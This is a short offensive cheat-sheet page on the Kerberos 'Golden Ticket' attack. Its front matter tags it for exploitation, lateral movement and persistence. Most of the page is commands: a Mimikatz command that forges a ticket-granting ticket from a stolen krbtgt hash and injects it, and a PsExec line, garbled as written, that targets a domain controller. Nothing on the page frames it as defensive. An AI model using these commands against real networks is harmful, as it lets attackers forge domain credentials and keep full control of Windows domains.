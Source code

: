 ```yaml
---
title: Golden Ticket
description: Require Admin Account. If we are able to get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, also known as golden tickets.
tags:
  - Exploitation
  - Lateral Movement
  - Windows
  - Persistence
---
```


### Creating a golden ticket using Mimikatz

```powershell
mimikatz kerberos::golden /user:$user /domain:$domain /sid:$domain_SID /krbtgt:$Krbtgt_hash /ptt

# Performing lateral movement and persistence using the golden ticket and PsExec
PsExec.exe \\$dc_hostname> payload
```